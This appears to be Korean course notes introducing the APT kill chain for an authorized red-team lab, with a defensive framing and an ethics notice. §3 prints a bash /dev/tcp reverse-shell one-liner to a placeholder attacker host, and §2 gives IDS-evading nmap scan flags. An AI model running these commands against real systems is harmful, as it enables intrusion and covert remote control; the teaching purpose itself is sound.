




# 공격고급 W01 — APT 킬체인: 한 번의 익스플로잇이 아니라 캠페인이다

> **본 주차의 한 줄 요약**
>
> 입문 과정의 공격은 "취약점 하나 → 익스플로잇 하나"였다. 그러나 현실의 정교한 공격(APT)은 **단발이 아니라
> 캠페인**이다 — 정찰로 표면을 훑고, 열거로 약점을 좁히고, 침투하고, 발판을 심어 지속하고, C2로 통제하고,
> 마침내 데이터를 빼낸다. 본 주차에 학생은 el34의 **모의침투 박스(el34-attacker)** 에서 인가된 표적에 이
> **킬체인 전 단계**를 직접 실행하며, 각 단계의 도구(nmap·gobuster·sqlmap·nc)와 기법을 손에 익힌다.
>
> **레드팀 한 줄 결론**: 공격을 배우는 목적은 파괴가 아니라 **방어를 깊이 이해하는 것**이다. 각 킬체인
> 단계가 방어자에게 어떤 흔적을 남기는지 알아야(OPSEC), 그 단계를 막는 방어를 설계할 수 있다 — 공격과 방어는
> 같은 동전의 양면이다.

---

## ⚠️ 윤리·법적 고지 (반드시 숙지)

본 과정의 모든 공격 기법은 **인가된 실습 환경(el34)에서, 교육 목적으로만** 수행한다. 허가 없이 타인의
시스템을 공격하는 것은 **범죄**(정보통신망법 등)다. 실습에서 배운 기법은 ① 본인이 소유하거나 ② 명시적
서면 허가를 받은 시스템에만 사용한다. 모든 실습 흔적은 self-clean한다.

---

## 학습 목표

본 주차 종료 시 학생은 다음 5가지를 **본인 손으로** 할 수 있어야 한다.

1. **APT 킬체인**(정찰→열거→침투→발판→지속성/C2)의 단계와 목적을 설명한다.
2. **정찰**(nmap 스텔스 스캔)과 **열거**(디렉터리/엔드포인트 발견)를 수행한다.
3. **침투**(SQLi 익스플로잇)에 **귀속 태그**를 붙여 실행한다.
4. **발판/C2**(리버스 셸)와 **지속성**(cron 비콘)의 메커니즘을 안다.
5. 각 단계가 남기는 **흔적(OPSEC)** 과 **귀속**(출처 IP 보존)을 방어자 관점에서 설명한다.

---

## 0. 용어 해설

| 용어 | 영문 | 뜻 | 비유 |
|------|------|----|------|
| **킬체인** | kill chain | 공격의 단계적 흐름 | 작전 단계 |
| **APT** | Advanced Persistent Threat | 지능형 지속 위협 | 장기 잠입 작전 |
| **정찰** | reconnaissance | 표적 정보 수집 | 사전 답사 |
| **열거** | enumeration | 서비스·경로 상세 파악 | 건물 도면 입수 |
| **익스플로잇** | exploit | 취약점 악용 코드/행위 | 자물쇠 따기 |
| **발판** | foothold | 침투 후 첫 거점 | 잠입 후 은신처 |
| **C2** | Command and Control | 공격자의 원격 통제 채널 | 작전 통신망 |
| **리버스 셸** | reverse shell | 피해자가 공격자로 역접속 | 안에서 문 열어주기 |
| **지속성** | persistence | 재부팅에도 살아남는 접근 | 영구 출입증 위조 |
| **OPSEC** | operational security | 공격자의 흔적 관리 | 작전 보안 |

> **헷갈리기 쉬운 한 쌍 — 바인드 셸 vs 리버스 셸.** **바인드 셸**은 피해자가 포트를 열고 공격자가 접속한다
> — 그러나 인바운드 방화벽이 막는다. **리버스 셸**은 피해자가 공격자에게 **역접속(아웃바운드)** 한다 —
> 아웃바운드는 대개 허용되므로 방화벽을 자연스럽게 회피한다. 그래서 현대 C2는 거의 리버스(역접속) 방식이다.
> 방어자는 이를 막으려 **아웃바운드 통제**(나가는 연결 감시)를 한다.

---

## 1. 단발 공격 vs APT 캠페인

### 1.1 한 줄 답: 목표는 침투가 아니라 "지속적 통제"다

스크립트 키디는 취약점 하나로 침투하고 끝낸다. APT의 목표는 다르다 — **들키지 않고 오래 머물며** 정보를
빼내거나 통제권을 유지하는 것이다. 그래서 침투는 시작일 뿐, 발판·지속성·C2가 본론이다.

### 1.2 왜 배우는가 — 방어를 위해

각 단계는 방어자에게 다른 흔적을 남기고 다른 방어를 요구한다. 정찰은 IDS로, 침투는 WAF로, C2는 아웃바운드
통제로, 지속성은 헌팅으로 막는다. **공격 단계를 알아야 그 방어를 설계**할 수 있다 — 이것이 레드팀 교육의 본질.

### 1.3 한계 — 완벽한 은신은 없다

el34는 출처 IP를 전 계층에 보존한다(SNAT 없음). 아무리 은밀해도 흔적은 남고, 방어자는 그것을 상관한다(§4).
공격자의 OPSEC과 방어자의 상관은 끝없는 창과 방패다.

---

## 2. 정찰 · 열거 · 침투

**정찰** — `nmap -sS`(SYN 스캔, 연결을 완성하지 않아 은밀)에 `-T2`(저속)로 IDS의 임계 탐지를 피하려 한다.
**열거** — 발견한 웹 서비스의 숨은 경로를 gobuster/nikto로 찾아 공격 지점을 좁힌다. **침투** — 취약점(SQLi)을
악용하되, **고유 태그**(User-Agent `aa01r1-<id>`)를 붙여 내 공격을 앰비언트 노이즈와 구분한다(귀속 — 모의훈련
채점·블루팀 상관에 필수). 실무에선 sqlmap이 SQLi 탐지·악용을 자동화한다.

---

## 3. 발판 · C2 · 지속성

**발판/C2** — 침투 후 `bash -i >& /dev/tcp/공격자/55001 0>&1` 같은 리버스 셸로 피해자가 공격자에게 역접속
한다. 공격자의 nc 리스너가 이 C2 채널을 받아 명령을 보낸다. **지속성** — 세션이 끊겨도 다시 접근하려고 cron
비콘(주기적 C2 재호출)·systemd 서비스·웹셸·SSH 키·백도어 계정을 심는다. **그러나** 이 모든 거점은 방어자
에게 흔적이다 — cron·계정·열린 포트는 soc-adv W06 헌팅(osquery `on_disk=0`·`listening_ports`)에 그대로 잡힌다.

---

## 4. OPSEC · 귀속 — 창과 방패

공격자는 흔적을 최소화하려 하고(OPSEC — 저속 스캔, 로그 삭제, 난독화), 방어자는 흔적을 상관하려 한다. el34는
출처 IP를 보존하므로 정찰·침투·C2가 모두 같은 IP로 묶인다 — 여기에 고유 태그까지 있으면 **완전한 귀속**이다.
공격을 배우며 "내가 무슨 흔적을 남기는가"를 아는 것이, 거꾸로 방어 설계의 핵심이 된다.

---

## 5. 실습 안내 (8 미션)

1. **환경 확인**. 2. **정찰**(nmap). 3. **열거**. 4. **침투**(SQLi+태그). 5. **발판/C2**(리버스 셸).
6. **지속성**(cron 비콘). 7. **OPSEC/귀속**. 8. **보고서**.

> 명령은 el34 호스트에서 `docker exec el34-attacker`로. **인가된 표적(10.20.30.1)에만**, 발판/지속성은
> 메커니즘 데모(표적 미변경)·self-clean. 외부 시스템 공격 절대 금지.

---

## 6. 다음 주차 (W02) 예고 — OSINT·정찰 심화

W01의 정찰은 능동 스캔(표적이 알 수 있음)이었다. W02는 표적이 모르게 정보를 모으는 **수동 정찰(OSINT)** —
공개 정보·DNS·인증서·메타데이터로 공격 표면을 그리는 법을 다룬다.
